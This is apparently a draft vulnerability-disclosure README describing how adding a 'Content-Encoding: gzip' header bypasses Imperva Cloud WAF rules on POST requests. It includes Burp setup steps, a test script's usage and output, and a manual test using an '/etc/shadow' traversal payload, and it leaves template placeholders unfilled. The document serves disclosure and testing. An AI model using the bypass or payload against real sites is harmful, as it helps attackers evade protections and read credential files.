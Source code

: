 # Imperva Web Application Firewall (WAF) POST Request Bypass 
Imperva Cloud WAF __OTHER_AFFECTED_PRODUCTS__ is vulnerable to a bypass that allows attackers to evade WAF rules when sending malicious HTTP POST payloads, such as log4j exploits, SQL injection, command execution, directory traversal, XXE, etc.

## Remediation
All customers of Cloud WAF are automatically patched as of __INSERT_PATCH_DATE__.
* Talk about __OTHER_AFFECTED_PRODUCTS__ before going live.

## To Exploit It
Add the header `Content-Encoding: gzip` to HTTP POST requests. Leave POST data as-is. Don't encode it. So long as the first four bytes of the `Content-Encoding` header are `gzip`, no WAF rules will be applied to POST requests.

You can do this in Burp by using the proxy's Match & Replace feature:

![](https://i.imgur.com/bNPA1MW.png)

Add a new header like this:

![](https://i.imgur.com/fJtQ8A1.png)

That's it; you're good to go.

# Running the Test Script
Run `imperva_gzip.py` against a URL that supports POST requests like this:

Syntax:
	`./imperva_gzip.py [[-t] | [-r]] URL`

Guess the WAF type for a given URL:
```
$ ./imperva_gzip.py -t https://www.vulnerable.com/search
Imperva Incapsula
$ ./imperva_gzip.py -t https://www.wordpress-user.com/login
WordFence
$ ./imperva_gzip.py -t https://www.cloudflare-customer.com
Cloudflare
```

Check to see if the WAF is vulnerable to the gzip bypass:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[+] Checking for Imperva WAF...
[+] Attempting gzip bypass for UNIX trigger...
[+] Vulnerable! HTTP response code: 200
[+] Attempting gzip bypass for Windows trigger...
[+] Vulnerable! HTTP response code: 200
```

If you get this error:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[!] Can't POST to https://www.vulnerable.com/search. Try -r if 30x redirects are allowed. HTTP response code: 302
```

then try passing `-r` on the command line to enable relaxed mode. Relaxed mode is off by default, which means a POST request is expected to elicit an HTTP 200 response from the server. `-r` expands the acceptable responses to HTTP 2xx, 3xx.

## Scripting
The exit codes for `imperva_gzip.py` are as follows:

```
0: Returned after getting WAF type.
1: Command-line was invalid.
2: There was an error connecting. Could be DNS error, timeout, etc.
3: No WAF was detected; malicious UNIX/Windows payloads weren't blocked.
4: A WAF was detected, but it wasn't Imperva.
5: The server responded to a test POST request with something other than HTTP 200.
128: There is an Imperva WAF, but it is not vulnerable to the gzip bypass.
129: The bypass was effective for the UNIX payload, but not the Windows one.
130: The bypass was effective for the Windows payload, but not the UNIX one.
131: The bypass was effective against both Windows and UNIX payloads.
```

## Process to Manually Test for Vulnerability
Send three POST requests:

1. Establish a baseline POST request/response with a valid but harmless POST request
2. Trigger the Imperva WAF using the same POST request, but with extra “malicious” data such as `&test=../../../../../../../etc/shadow` in the body to verify that Imperva blocks it
3. Add the header `Content-Encoding: gzip` to the same malicious request and verify that Imperva doesn't block it

## Other Encodings
According to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Encoding, there are four valid values for the `Content-Encoding` header:

* `compress`
* `deflate`
* `gzip`
* `br`

In testing, only `gzip` appears to work as a bypass. I wonder if gzip is whitelisted for performance reasons?

## Affected Versions
### Imperva Cloud WAF
Cloud WAF is managed by Imperva. As as result, updates to Cloud WAF affect almost all customers at almost the same time. It is patched for all customers as of __INSERT_PATCH_DATE__. 

### __OTHER_AFFECTED_PRODUCTS__

## SecureSphere
The `gzip` bypass bug has been remediated in a separate Imperva product called SecureSphere. The [release notes for v12.6 of SecureSphere](https://docs.imperva.com/bundle/v12.6-release-notes/page/64973.htm) contain this paragraph:

> SPHR-58185: When SecureSphere failed to decompress POST body in requests with "Content-Encoding: gzip/deflate" header, it issued no alert and let the request through.

I'm pretty sure this is the same bug, perhaps with the same code heritage as Cloud WAF... it's a pretty specific bug to be in two products. The issue was resolved for SecureSphere in February 2021, but we don't know when it was introduced. It's possible that the vulnerability has been there for years!

## Contact
### Bishop Fox
* Author: [@carllivitt](https://twitter.com/carllivitt) [@bishopfox](https://twitter.com/bishopfox)
* Offensive Security: [Bishop Fox](https://bishopfox.com/)
* Continuous Offensive Security: [Bishop Fox Cosmos](https://bishopfox.com/platform)
* Mad Scientists: [Bishop Fox Labs](https://bishopfox.com/labs)

### Imperva
__CONTACT_DETAILS__
url, email, phone, social, etc

## References
* [Imperva Cloud WAF](https://www.imperva.com/products/web-application-firewall-waf/)
* [Imperva SecureSphere 12.6 release notes](https://docs.imperva.com/bundle/v12.6-release-notes/page/64973.htm)
* [Content-Encoding HTTP header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Encoding)
